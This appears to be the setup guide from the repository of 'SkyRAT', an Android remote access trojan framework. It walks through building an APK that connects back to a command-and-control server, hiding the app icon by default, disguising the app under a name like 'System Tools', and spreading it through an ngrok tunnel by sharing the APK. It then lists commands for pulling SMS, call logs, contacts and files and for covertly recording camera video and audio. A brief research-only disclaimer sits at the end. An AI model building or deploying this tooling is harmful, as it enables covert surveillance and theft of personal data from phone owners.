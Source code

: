 # SkyRAT Quick Setup Guide

## 🚀 Fast Track Installation

### **Repository Setup**
```bash
# Clone SkyRAT repository
git clone https://github.com/techsky-eh/skyrat.git
cd skyrat

# Create and activate virtual environment
python3 -m venv venv
source venv/bin/activate  # Linux/macOS
# or
venv\Scripts\activate     # Windows

# Install Python dependencies
pip3 install -r requirements.txt

# Setup Android SDK (automated)
chmod +x tools/android-sdk-setup.sh
./tools/android-sdk-setup.sh
```

### **Verify Installation**
```bash
# Test framework
python3 skyrat.py --help

# Check Android build capability
cd android && ./gradlew tasks
```

## 📱 Quick Build & Test

### **1. Build APK (Local Network)**
```bash
# Replace with your actual IP
python3 skyrat.py --build -i 192.168.1.100 -p 8000 -o test.apk
```

### **2. Start C&C Server**
```bash
# Start server and wait for connections
python3 skyrat.py --shell -i 192.168.1.100 -p 8000
```

### **3. Install & Test APK**
```bash
# Install on test device
adb install build/test.apk

# Grant permissions when prompted
# App will connect automatically
```

## 🌐 External Access (Optional)

### **Using Ngrok for Remote Access**
```bash
# Build with automatic ngrok tunnel
python3 skyrat.py --build --ngrok -p 8000 -o remote.apk

# Server starts automatically after build
# Share the APK for external testing
```

## 🔧 Configuration Options

### **Build Variants**
```bash
# Hidden app (default)
python3 skyrat.py --build -i IP -p PORT -o hidden.apk

# Visible app icon
python3 skyrat.py --build -i IP -p PORT --visible-icon -o visible.apk

# Custom app name
python3 skyrat.py --build -i IP -p PORT --app-name "System Tools" -o custom.apk
```

### **Server Options**
```bash
# Basic server
python3 skyrat.py --shell -i IP -p PORT

# Debug mode (verbose output)
python3 skyrat.py --shell -i IP -p PORT --debug

# Clean build (remove old files)
python3 skyrat.py --build --clean -i IP -p PORT
```

## 📂 Repository Structure
```
skyrat/
├── skyrat.py              # Main entry point
├── utils/                 # Core framework modules
├── android/               # Android source code
├── build/                 # Generated APKs
├── dumps/                 # Downloaded data
├── tools/                 # Setup scripts
└── docs/                  # Documentation
```

## 🎯 Essential Commands

### **Device Information**
```bash
SkyRAT:/> deviceInfo       # Complete device details
SkyRAT:/> getIP            # Device IP address
SkyRAT:/> sysinfo          # System information
```

### **Data Extraction**
```bash
SkyRAT:/> getSMS inbox     # SMS messages
SkyRAT:/> getCallLogs      # Call history  
SkyRAT:/> getContacts      # Contact list
SkyRAT:/> getApps          # Installed apps
```

### **File Operations**
```bash
SkyRAT:/> ls /sdcard/      # List files
SkyRAT:/> download /path/file.jpg  # Download file
SkyRAT:/> upload local.txt         # Upload file
```

### **Recording**
```bash
SkyRAT:/> camList          # Available cameras
SkyRAT:/> startVideo 0     # Start recording
SkyRAT:/> stopVideo        # Stop & download
SkyRAT:/> startAudio       # Start audio
SkyRAT:/> stopAudio        # Stop & download
```

## ⚠️ Important Notes

### **Security Research Only**
- Use only on devices you own or have explicit permission to test
- Follow responsible disclosure practices
- Comply with local cybersecurity laws
- Document all testing activities

### **Testing Environment**
- Use isolated networks for testing
- Document device configurations
- Maintain proper audit trails
- Follow ethical security research guidelines

### **Troubleshooting**
```bash
# Check Java installation
java -version

# Verify Android SDK
echo $ANDROID_HOME

# Test network connectivity
ping YOUR_SERVER_IP

# Check port availability
netstat -ln | grep 8000
```

## 🆘 Getting Help

### **Repository Support**
- **Issues**: https://github.com/techsky-eh/skyrat/issues
- **Discussions**: https://github.com/techsky-eh/skyrat/discussions
- **Wiki**: https://github.com/techsky-eh/skyrat/wiki

### **Community Resources**
- Read the full [README.md](README.md) for comprehensive documentation
- Check [docs/](docs/) for detailed guides
- Review [examples/](examples/) for usage scenarios

### **Quick Fixes**
```bash
# Clean everything and rebuild
python3 skyrat.py --build --clean -i IP -p PORT

# Reset Android project
cd android && ./gradlew clean

# Reinstall dependencies
pip3 install -r requirements.txt --force-reinstall
```

---

**Ready to start? Run the setup commands above and you'll have SkyRAT operational in minutes!**

For detailed documentation, security guidelines, and advanced features, see the main [README.md](README.md).